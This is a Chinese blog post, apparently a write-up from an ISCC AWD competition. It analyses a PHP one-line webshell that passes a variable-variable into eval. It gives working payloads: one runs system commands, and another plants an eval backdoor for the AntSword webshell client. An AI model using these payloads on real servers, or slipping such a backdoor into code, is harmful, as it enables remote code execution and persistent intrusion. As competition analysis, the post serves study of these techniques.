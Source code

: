 ```yaml
---
title: "一个有趣的PHP一句话"
date: 2019-06-30T13:29:56+08:00
draft: false
tags: ['php','shell']
categories: ['代码审计']
---
```

在iscc线下赛awd中遇到了一个shell，挺有意思，记录一下。
<!--more-->
源代码是这样的。其实刚拿到这个shell的时候我挺蒙的，不知道该怎么去利用，然后分析了一下，发现其实也还简单，下面我们一起来看下。

```php
<?php
show_source(__FILE__);
$a = @$_REQUEST['a'];
@eval("var_dump($$a);");
```

首先从请求中拿到`$a`参数，然后经过一次`var_dump`输出`$$a`的值，最后交给`eval`去执行。

那么显然`eval`的参数我们是可以控制的，关键的点就在于怎么去控制`var_dump`函数输出的内容。

我们先来看下var_dump函数的效果

```php
$a= 'phpinfo();';
var_dump($a);
浏览器输出
E:\code\php\1.php:8:string 'phpinfo();' (length=10)
```

可以看出来他会把变量的类型和变量的值都输出出来。

然后我们回头来看`$$`，在之前的文章中提到过，`$$`是存在变量覆盖的，那么我们可以通过`$$`来把`a`变量覆盖为我们想要的值。

![](https://y4er.com/img/uploads/20190630134606.png)

可以看到，当我们post提交`a=a=1`是，`$a`的值被覆盖为1，此时`eval`执行的是`eval("var_dump($a=1);")`

那么我们继续构造payload，闭合`var_dump`来拼接我们自己的函数。

```http
post
a=a=1);system(whoami
```

![](https://y4er.com/img/uploads/20190630135147.png)

利用成功！

那么怎么让蚁剑也能用这个shell呢？继续修改我们的payload

```http
post
a=a=1);eval($_POST[p]);//
```

然后蚁剑配置

![](https://y4er.com/img/uploads/20190630135604.png)

密码是p。这样就能连上蚁剑了。



s1ye师傅提出了另一种思路`${}`。~~他个臭嗨又偷偷看我文章~~

![](https://y4er.com/img/uploads/20190707175856.png)